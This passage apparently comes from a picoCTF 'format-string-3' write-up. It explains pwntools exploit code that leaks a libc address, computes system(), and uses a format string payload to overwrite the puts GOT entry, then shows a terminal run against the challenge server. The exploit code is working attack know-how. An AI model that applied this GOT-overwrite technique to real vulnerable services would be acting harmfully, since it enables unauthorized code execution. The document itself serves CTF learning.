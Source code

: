### Leaking the Loaded `setvbuf` Address
```python
m = r.recvregex(b'libc: 0x([0-9a-f]+)\n', capture=True)
matched_string = m.group(0).decode()
log.info(f'matched_string: {matched_string}')
loaded_libc_setvbuf = int(m.group(1).decode(), 16)
```
- Receive output from the server that contains the loaded address of `setvbuf`.
- Use a regular expression to capture this address and log it.

### Calculate `system()` Address
```python
loaded_libc_system = loaded_libc_setvbuf + (libc_system - libc_setvbuf)
log.info(f'loaded_libc_system: {hex(loaded_libc_system)}')
```
- Calculate the actual address of `system()` in the loaded libc using the offset from `setvbuf`.
- Log the calculated address for debugging purposes.

### Creating the Format String Payload
```python
loaded_libc_system_lower = loaded_libc_system & 0xffffffff
format_string = fmtstr_payload(38, {got_puts:loaded_libc_system}, numbwritten=0, write_size='byte')
```
- Mask the `system` address to the lower 32 bits, if necessary.
- Use `fmtstr_payload` to create a format string payload that writes the `system` address to the `puts` GOT entry. The `38` represents the number of characters to print before writing, which depends on the specific format string offsets.

### Sending the Payload
```python
r.sendline(format_string)
r.interactive()
```
- Send the crafted format string payload to the server.
- Switch to interactive mode to allow user interaction with the shell if the exploit is successful.

## Summary
This script automates the process of exploiting a format string vulnerability:
- Connects to the target service.
- Leaks necessary addresses.
- Calculates the address of `system()`.
- Constructs and sends the payload to overwrite the `puts` entry in the GOT with that address.

## Next Steps
- Ensure you have the correct version of `libc.so.6` that matches the server.
- Adjust `got_puts` and offsets based on your specific binary layout.
- Test the script and refine it as needed based on server responses.


```css
┌──(myenv)─(kali㉿kali)-[~/Downloads]
└─$ python3 test.py rhea.picoctf.net 50071
[!] Could not populate PLT: No module named 'pkg_resources'
[*] '/home/kali/Downloads/format-string-3'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```